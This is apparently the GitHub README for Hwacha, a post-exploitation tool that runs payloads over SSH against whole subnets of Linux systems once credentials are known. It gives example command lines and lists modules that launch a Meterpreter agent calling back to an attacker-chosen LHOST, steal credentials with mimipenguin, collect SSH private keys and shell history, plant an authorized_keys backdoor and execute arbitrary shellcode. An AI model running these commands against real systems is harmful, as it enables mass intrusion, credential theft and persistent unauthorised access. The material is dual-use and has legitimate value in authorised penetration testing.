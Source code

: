 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

https://www.n00py.io/2017/12/raining-shells-on-linux-environments-with-hwacha/

Hwacha is a tool to quickly execute payloads on *Nix based systems.  Easily collect artifacts or execute shellcode on an entire subnet of systems for which credentials are obtained. 


    $python hwacha.py 
        &&&&     &&         &&        &&
    &&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
       &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
      &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
     &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
      &&    &&   &&      &&    &&     &&     | | | |                   | |
       &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
         &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
    &&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
                 &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
    To run commands, use -x [COMMAND]
    to run modules, use -m [MODULE]
    to specify module options, use -o [ARG=ARG ARG=ARG]
    to see all available modules, use -L
    Example usage:
    python hwacha.py -t 192.168.1.1/24 -u admin  -p password
    python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
    python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
    python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"


    Available Modules:
    [*] meterpreter               Use this to execute a meterpreter agent on the target(s).
                                  REQURED ARGUMENTS: LHOST , LPORT
                                  OPTIONAL ARGUMENTS: TYPE {python, php, 32, 64, osx}
    [*] mimipenguin               Use this to execute a mimipenguin on the target(s) to recover credentials.  (Requires root)
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] keys                      Use this to collect SSH private keys from the target(s).
    [*] history                   Use this to collect shell history files from the target(s).
    [*] privs                     Use this to enumerate sudo privileges on the targets(s).
    [*] backdoor                  Creates an RSA key pair and adds public key to authorized_keys file on targets(s).
    [*] web_delivery               Use this to execute a python script on the target(s).
                                  REQURED ARGUMENTS: PATH
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] custom_bin               Use this to execute a custom binary on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] sudo_exec               Use this to execute a custom binary (with sudo) on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] shellcode               Use this to execute custom shellcode on the target(s).
                                  REQURED ARGUMENTS: PATH


Requires paramiko:

    pip install paramiko 
